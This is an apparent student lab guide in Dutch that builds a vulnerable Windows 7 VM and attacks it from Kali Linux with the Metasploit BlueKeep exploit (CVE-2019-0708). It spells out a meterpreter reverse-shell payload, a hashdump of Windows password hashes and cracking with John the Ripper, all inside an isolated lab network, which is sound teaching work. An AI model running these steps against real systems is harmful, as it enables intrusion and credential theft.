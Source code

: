# STAPPENPLAN NPE-OPDRACHT

In dit stappenplan wordt eerst toegelicht hoe de Windows 7 omgeving automatisch wordt opgezet. Vervolgens worden de stappen beschreven om vanuit de Kali Linux-machine een aanval uit te voeren op basis van CVE-2019-0708.

## 1. Windows 7

### Voorbereiding:
#### Downloaden en installatie van nodige bestanden


- Voor het downloaden van de gebruikte Windows 7 ISO, ga naar:
  `https://archive.org/details/win-7-ultimate-sp-1-en-us-sept-2015-x-64/Windows%207%20Ultimate%2064-bit%20SP1%20%5BPreactivated%20ISO%5D/Images/Windows%207%2064bit%20SP1-2023-11-29-22-03-26.png` en klik op **ISO IMAGE**
- Zet de gedownloade ISO-file in dezelfde map als de scripts.
- Aangezien Windows 7 de recente VirtualBox Guest Additions niet correct ondersteunt, moeten we versie 6.1.26 downloaden via `https://download.virtualbox.org/virtualbox/6.1.26/VBoxGuestAdditions_6.1.26.iso`
- Zet ook deze ISO-file in dezelfde map.

#### Execution-Policy aanpassen
Soms laat je Host-Computer niet toe om powershell-scripts te runnen die je zelf niet gesigned hebt, daarom moet je je Execution-Policy aanpassen in een **Administator mode Powershell** venster:

```ps
# Probeer eerst deze command
Set-ExecutionPolicy Unrestricted

# als deze een foutmelding geeft moet je deze uitvoeren:
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Stap 1: Aanmaken Windows7-VM

- Start het `create_win7_vm.ps1` script
- Volg de installatie (klik enkele keren op "Next") en wacht tot Windows volledig geïnstalleerd is.
- Wanneer Windows geïnstalleerd is, ga naar `file explorer > computer > VirtualBox Guest Additions` op de Windows7-VM en voer het `VBoxWindowsAdditions-amd64.exe` uit.
- Selecteer alle default-opties van de setup (klik telkens op *Next*) en vertrouw de installatie indien je dit scherm krijgt. Klik dan op **Install**.
- Druk op **reboot now** wanneer dit gevraagd uit

### Stap 2: RDP inschakelen

- Open op de Windows7-VM *cmd* als administrator en voer volgende commando's uit:

```ps
Z:
powershell -ExecutionPolicy Bypass -File \enable_rdp.ps1
```

- Hiermee worden RDP, ICMP (ping) en poort 3389 automatisch geactiveerd.
- De Windows 7 omgeving is nu volledig klaar voor de aanval.

## 2. Kali 

Zodra de Windows 7 VM klaarstaat, moet je er niets meer aan aanpassen. We gaan nu voortdoen met het opzetten van de Kali VM.

### Stap 1: Netwerkconfiguratie
**Zorgen dat beide VMs in hetzelfde interne netwerk zitten**

- Verander in de VirtualBox settings op je Host-Computer:
  - Netwerkadapter 1: default NAT (zodat je internet hebt)
  - Netwerkadapter 2: *internal network* en selecteer `npe_intnet` 

**IP-adres toekennen aan eth1**

- Open een terminal op Kali en voer het volgende uit:

```bash
sudo nano /etc/network/interfaces
```

Voeg hier vervolgens volgende code aan toe:

```bash
auto eth1
iface eth1 inet static
    address 10.10.10.3
    netmask 255.255.255.0
```
Herstart nu de Kali Linux VM.

### Stap 2: Metasploit

**Metasploit-aanval opstarten**

```bash
# dit commando voer je gewoon uit in de linux-terminal
msfconsole

# Vervolgens voer je op de metasploit-CLI volgende commando's uit (de commando's beginnen pas na de >)

msf6 > exploit/windows/rdp/cve_2019_0708_bluekeep_rce
sf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set RHOSTS 10.10.10.2
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set LHOST 10.10.10.3
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set LPORT 4444
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set TARGET 1
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> run
```

Als je al dit goed hebt uitgevoerd, zit je nu in de meterpreter-console

### Stap 3: meterpreter console gebruiken om wachtwoorden te kraken
1. Op de kali VM kan je via de meterpreter console nu de hashdumps van Windows opvragen

```bash
meterpreter > hashdump
```

2. De output van deze command kan je dan opslaan in dit bestand `~/cybersec/hashdump_win7.txt`
3. Vervolgens ga je de rockyou.txt wordlist nodig hebben, moet je misschien eerst unzippen met `gunzip /usr/share/wordlists/rockyou.txt.gz`
4. Vervolgens kan je dit commando runnen om het te kraken `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ~/cybersec/hashdump_win7.txt` 
5. Hieruit zie je dan dat het wachtwoord bv. "superman" is van de Administrator 
